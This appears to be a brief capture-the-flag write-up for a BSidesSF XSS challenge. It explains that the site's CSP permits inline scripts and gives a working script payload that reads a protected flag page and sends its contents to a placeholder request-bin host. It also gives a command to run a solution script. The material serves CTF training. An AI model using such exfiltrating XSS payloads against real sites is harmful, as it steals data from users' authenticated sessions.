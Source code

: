 Standard XSS challenge, CSP will allow inline scripts. 

Something like the following payload would work, 

```
<script>
	var xhr = new XMLHttpRequest(); 
	xhr.open('GET','/xss-one-flag', true); 
	xhr.onload = function () { 
		var request = new XMLHttpRequest(); 
		request.open('GET', 'https://REQUEST_BIN_URL?flag='+xhr.responseText, true);
		request.send()
	};
	xhr.send(null);
 </script>
```

If you want to test the challenge, run the following command - 
`python solution.py https://web-tutorial-1-ed930da1.challenges.bsidessf.net/`
